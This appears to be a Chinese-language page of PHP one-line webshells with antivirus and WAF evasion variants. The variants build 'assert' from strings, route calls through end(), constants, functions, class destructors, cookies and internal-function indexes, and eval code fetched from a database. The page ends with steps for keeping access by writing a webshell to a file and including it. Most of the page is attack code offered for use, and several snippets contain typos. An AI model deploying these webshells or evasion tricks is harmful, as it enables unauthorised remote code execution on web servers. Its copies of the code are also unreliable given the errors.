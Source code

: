 **php一句话木马**

```php
<?php eval($_REQUEST['a']]);?>
```



**拦截进行替换**

1. 替换eval()

- assert()

2. 替换$_REQUEST['a']

- 写$_REQUEST无报错，加上 '[]' 后报错
- 利用end()绕过，end()函数的意义：输出数组中当前元素和最后一个元素的值 

```php
<?php
    eval(end($_REQUEST));
?>
```

- 当用菜刀连接时，无需密码

**通过常量的定义**

```php
<?php
    define("a", "$_REQUEST[2]");
    eval(a);
?>
```



**字符串拼接**

```php
<?php
    $a = 'ass';
    $b = 'ert';
    $c = $a.$b;
    $d = 'c';
    @$$d($_REQUEST['a']]);
?>
```



**定义函数强行分割**

```php
<?php
    function a($a){
        return $a;
    }
    eval(a($_REQUEST)['a']);
?>
```



**定义类强行分割**

```php
<?php
    class User{
        public $name = '';
        function __destruct(){
            eval("$this->name");
        }
    }
    $user = new User;
    $user -> name = "._REQUEST[1]";
?>
```



**多方式传参免杀**

```php
<?php
    $COOKIE = $_COOKIE;
    foreach($COOKIE as $key => $value){
        if($key == 'assert'){
            $key($_REQUEST[1]);
        }
    }
?>
```



**返回所有函数进行绕过**

```php
<?php
    $a = get_define_function(); // 返回所有已定义函数的数组【是一个二维数组】
    $a[internal][841]($_REQUEST[1]); // 利用internal里面的第841个值【这个值就是assert，后面加个括号代表函数】
?>
```



**绕过WAF的终极**

- 但数据库中必须有一个字段的值是eval($_REQUEST[a])

```php
<?php
    eval(mysqli_fetch_assoc(mysqli_query(mysqli_connect('127.0.0.1','root','root','database'),'select * from info'))['info']);
    // mysqli_fetch_assoc函数从结果集中取得一行作为关联数组（也就是会从结果中返回一行数据），执行连接database数据库并执行查询命令
    // 来获取info表中的第一行info字段，并通过eval执行
?>
```

**拿到WebShell后如何维持住权限**

1. 打开cmd命令行

2. 输入` echo "<?php eval($_REQUEST[1]);?>" > /:1.txt`

3. 在新建一个1.php，写` <?php include('/:1.txt');?>`包含一句话木马